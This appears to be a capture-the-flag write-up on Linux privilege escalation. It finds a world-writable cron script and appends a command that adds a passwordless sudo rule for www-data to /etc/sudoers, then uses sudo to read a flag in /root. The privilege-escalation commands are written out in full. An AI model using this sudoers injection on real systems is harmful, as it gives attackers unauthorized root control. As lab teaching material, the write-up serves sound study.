 # PRIVILEGE ESCALATION

One of the things of the Linux privilege escalation techniques are to check the cron jobs:

- Check the cron jobs:
	`ls -al /etc/cron* /etc/at*`
```bash
/etc/cron.hourly:
total 16
drwxr-xr-x   2 root     root     4096 Aug 27 03:20 .
drwxr-xr-x 107 root     root     4096 Oct 11 19:42 ..
-rw-r--r--   1 root     root      102 Nov 16  2017 .placeholder
-rwxrwxrwx   1 www-data www-data   56 Oct 11 19:16 cuiteur-cleaning
```
- It can be seen from the output that the cuiteur-cleaning we have write access with the user we have logged in:

- The vulnerability has been found now we have to exploit it, we write the user www-data into the /etc/sudoers file so it can have sudo access:

```bash
os-shell> cat /etc/cron.hourly/cuiteur-cleaning
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers'

echo "echo "www-data ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers" >> /etc/cron.hourly/cuiteur-cleaning

```

- After the hour the command will be executed, exacty at minute 17.
``
os-shell> sudo ls /root
do you want to retrieve the command standard output? [Y/n/a] y
command standard output: 'flag{9f1f16811b12bbfb21a3b0fbad66c27d3b5083102aca73}.jpg'
``

